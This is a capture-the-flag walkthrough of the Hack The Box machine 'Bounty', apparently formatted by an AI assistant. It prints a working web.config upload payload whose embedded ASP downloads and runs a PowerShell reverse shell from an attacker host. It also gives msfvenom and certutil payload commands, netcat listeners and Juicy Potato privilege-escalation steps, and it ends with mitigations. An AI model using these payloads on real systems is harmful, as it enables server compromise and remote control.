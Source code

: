Here’s a clean, organized, and phase-based walkthrough of **HTB: Bounty**, with relevant commands and explanations preserved for reference. 🕵️‍♂️💣

---

## 🧭 Reconnaissance

### ⚡ Fast Port Scan
```bash
export IP=10.10.10.93
rustscan --ulimit 5000 -a $IP -- -A -sC -oN recon/$IP.scan.rustscan.txt
```

### 📌 Result Summary:
- **Port 80** open (HTTP)
- **Service**: Microsoft IIS 7.5
- **Server OS**: Windows Server 2008 R2

---

## 🌐 Web Enumeration

### 📁 Directory Enumeration via ShortScan
```bash
shortscan -F http://$IP/
```

### ✅ Discovered Pages:
- `/transfer.aspx` – file upload endpoint
- `/uploadedfiles/` – public directory, potentially for uploaded files

---

## 💣 Exploitation – File Upload Bypass via `web.config`

### 🔍 Goal:
Bypass file extension filtering and achieve **Remote Code Execution** (RCE).

### 🧪 Technique:
1. Used **Burp Intruder** to fuzz file extensions during upload.
2. `.config` was accepted (unexpected but powerful).

### 📝 Malicious `web.config` Payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule"
              scriptProcessor="%windir%\system32\inetsrv\asp.dll" 
              resourceType="Unspecified" requireAccess="Write" preCondition="bitness64"/>
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions><remove fileExtension=".config"/></fileExtensions>
            <hiddenSegments><remove segment="web.config"/></hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.72/Invoke-PowerShellTcp.ps1')")
%>
```

---

## 🛰️ Reverse Shell

### 🧪 Using Nishang:
```bash
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.72 -Port 4444" >> Invoke-PowerShellTcp.ps1
updog -p 80  # serve payload
```

### 🧲 Listener (with rlwrap for convenience):
```bash
rlwrap -f . -r nc -nlvp 4444
```

### 🚀 Trigger Shell:
- Upload `web.config` via `/transfer.aspx`
- Visit `/uploadedfiles/web.config` to execute
- ✅ You get a reverse shell as user `merlin`

---

## 🏁 User Flag
```bash
C:\Users\merlin\Desktop> type user.txt
```

---

## 🚀 Privilege Escalation – Juicy Potato

### 📌 Key Privilege:
```bash
whoami /priv
# SeImpersonatePrivilege: Enabled ✅
```

### ⚙️ Transfer Juicy Potato:
```powershell
certutil -urlcache -split -f http://10.10.16.72/JuicyPotato.exe jp.exe
```

### 💣 Generate Reverse Shell (64-bit):
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.72 LPORT=443 -f exe -o reverse.exe
```

### 📥 Transfer payload:
```powershell
certutil -urlcache -split -f http://10.10.16.72/reverse.exe reverse.exe
```

---

## 🎯 Execute PrivEsc
```powershell
.\jp.exe -l 1337 -p reverse.exe -t *
```

Start listener:
```bash
rlwrap -f . -r nc -nlvp 443
```

### ✅ Shell as SYSTEM

---

## 🔐 Root Flag
```cmd
type C:\Users\Administrator\Desktop\root.txt
```

---

## 📚 Lessons Learned

### 🔓 Initial Access:
- Exploited **file upload bypass** using `.config` file
- Abused ASP handler config to execute malicious code

### 📈 Privilege Escalation:
- Leveraged **SeImpersonatePrivilege** with Juicy Potato for SYSTEM access

### 🛡️ Mitigations:
- Harden file uploads: restrict extensions, validate contents, isolate directories
- Restrict SeImpersonatePrivilege to trusted services
- Patch critical systems (this was Windows Server 2008 R2 – unpatched!)

---

## 🎥 [VOD Replay](https://www.twitch.tv/deadpool3020/v/2346652668?sr=a&t=6s)

---

Let me know if you'd like this exported as a `.md` or turned into a downloadable report. Ready for the next target? 🧠💀